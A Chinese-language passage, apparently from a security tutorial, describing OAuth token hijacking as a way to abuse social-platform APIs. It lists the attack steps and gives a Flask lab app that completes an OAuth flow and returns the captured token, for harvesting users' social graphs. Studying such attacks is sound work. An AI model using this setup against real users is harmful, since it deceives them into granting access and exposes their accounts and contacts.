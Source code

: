 ### 3.2 API滥用

#### 3.2.1 OAuth令牌劫持

攻击者通过劫持用户的OAuth令牌，利用社交平台的API获取用户的社交关系链。

**攻击步骤：**
1. 诱使用户授权恶意应用访问其社交账号。
2. 获取用户的OAuth令牌。
3. 使用OAuth令牌调用社交平台的API，获取社交关系链。

**实验环境搭建：**
- 使用Python编写一个简单的OAuth授权应用。
- 使用`Flask`框架搭建授权服务器。

**代码示例：**
```python
from flask import Flask, redirect, request
import requests

app = Flask(__name__)

CLIENT_ID = 'your_client_id'
CLIENT_SECRET = 'your_client_secret'
REDIRECT_URI = 'http://localhost:5000/callback'

@app.route('/')
def index():
    auth_url = f'https://social-platform.com/oauth/authorize?client_id={CLIENT_ID}&redirect_uri={REDIRECT_URI}&response_type=code'
    return redirect(auth_url)

@app.route('/callback')
def callback():
    code = request.args.get('code')
    token_url = 'https://social-platform.com/oauth/token'
    data = {
        'client_id': CLIENT_ID,
        'client_secret': CLIENT_SECRET,
        'code': code,
        'redirect_uri': REDIRECT_URI,
        'grant_type': 'authorization_code'
    }
    response = requests.post(token_url, data=data)
    access_token = response.json().get('access_token')
    # 使用access_token调用API获取社交关系链
    return 'Token captured: ' + access_token

if __name__ == '__main__':
    app.run(debug=True)
```

### 3.3 社交工程
